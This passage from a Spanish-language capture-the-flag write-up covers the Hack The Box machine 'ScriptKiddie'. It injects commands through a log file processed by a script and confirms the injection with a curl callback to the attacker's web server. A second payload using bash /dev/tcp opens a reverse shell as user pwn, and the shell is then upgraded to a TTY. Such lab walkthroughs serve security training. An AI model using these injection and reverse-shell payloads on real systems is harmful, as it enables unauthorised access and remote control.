 ```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Escribiremos el siguiente contenido en el archivo `hackers` donde llegan los logs, en este ejemplo pondremos en marcha lo explicado anteriormente.

```bash
kid@scriptkiddie:~/logs$ echo 'x x x 10.10.14.2; curl 10.10.14.2/gzzcoo #' > hackers
```

Por parte de nuestro servidor web, confirmamos que se ha realizado la petición con `cURL` hacía nuestro servidor web, confirmamos finalmente el `Command Injection`.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.226 - - [02/Mar/2025 18:03:45] code 404, message File not found
10.10.10.226 - - [02/Mar/2025 18:03:45] "GET /gzzcoo HTTP/1.1" 404 -
```

Por lo tanto, el siguiente paso será lograr obtener acceso a través de una Reverse Shell con el usuario que ejecuta el script, que probablemente sea `pwn`.

```bash
❯ nc -nlvp 444
listening on [any] 444 ...
```

Inyectaremos el siguiente código en el archivo de logs `hackers`.

```bash
kid@scriptkiddie:~/logs$ echo "x x x 10.10.14.2; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.2/444 0>&1' #" > hackers
```

Confirmaos que hemos recibido correctamente el acceso a la máquina con el usuario `pwn`.

```bash
❯ nc -nlvp 444
listening on [any] 444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.226] 44498
bash: cannot set terminal process group (840): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$ 
```

Al obtener la reverse shell, mejoramos la calidad de la shell con los siguientes pasos para obtener una TTY interactiva.

```bash
❯ nc -nlvp 444
listening on [any] 444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.226] 44498
bash: cannot set terminal process group (840): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
pwn@scriptkiddie:~$ ^Z
zsh: suspended  nc -nlvp 444
❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 444
                              reset xterm
                              
pwn@scriptkiddie:~$ export TERM=xterm
pwn@scriptkiddie:~$ export SHELL=bash
pwn@scriptkiddie:~$ stty rows 46 columns 230
```
